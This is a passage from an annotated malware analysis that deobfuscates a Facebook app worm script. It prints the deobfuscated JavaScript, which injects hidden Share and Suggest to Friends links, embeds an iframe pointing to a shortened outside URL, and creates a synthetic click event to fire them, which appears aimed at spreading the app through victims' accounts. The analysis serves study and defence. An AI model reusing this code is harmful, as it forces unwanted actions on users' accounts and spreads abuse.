     '/ajax/social_graph/invite_dialog.php',
    'submitDialog',
    '<a rel="dialog" ' +
        'href="http://www.facebook.com/ajax/share_dialog.php?' +
            's=18&amp;appid=4949752878&amp;p[]=169625639721292" ' +
        'title="Send this to friends or post it on your profile." ' +
        'id="slink" ' +
        'class="share share_a">' +
            'Share' +
    '</a>',
    'input',
    'Share',
    'getElementsByTagName',
    'junk',
    'app4949752878_shdiv',
    'app4949752878_sgdiv',
    'slink',
    'value',
    '<iframe src="http://bit.ly/dwDcvU" ' +
        'frameborder="0" ' +
        'width="520" ' +
        'height="800" ' +
        'scrolling="no">' +
    '</iframe>',
    'a()',
    'setTimeout',
    'display',
    'style',
    'parentNode',
    'pop_content',
    'none'
];

/*
 * Next we can substitute these values in the rest of the expressions to get a
 * cleaner picture. First we have two simple HTML injections.
 */

//void(d[v[2]](_0x8a00[19])[v[0]]=[v[14]]);
document.getElementById('app4949752878_shdiv').innerHTML =
    '<a rel="dialog" ' +
        'href="http://www.facebook.com/ajax/share_dialog.php?' +
            's=18&amp;appid=4949752878&amp;p[]=169625639721292" ' +
        'title="Send this to friends or post it on your profile." ' +
        'id="slink" ' +
        'class="share share_a">' +
         'Share' +
    '</a>';

//void(d[v[2]](_0x8a00[20])[v[0]]=[v[3]]);sl=d[v[2]](_0x8a00[21]);
//var ss=d[v[2]](v[4]);var c=d[v[6]](v[5]);
document.getElementById('app4949752878_sgdiv').innerHTML =
    '<a id="suggest" href="#" ' +
        'ajaxify="/ajax/social_graph/invite_dialog.php?' +
            'class=FanManager&node_id=169625639721292" ' +
        'class="profile_action actionspro_a" rel="dialog-post">' +
            'Suggest to Friends' +
    '</a>';
/* Now a couple of assigments, and also we create a mouse event. */
var sl = document.getElementById('slink');
var ss = document.getElementById('suggest');
var c = document.createEvent('MouseEvents');

//void c[v[8]](v[7],true,true);
c.initEvent('click', true, true);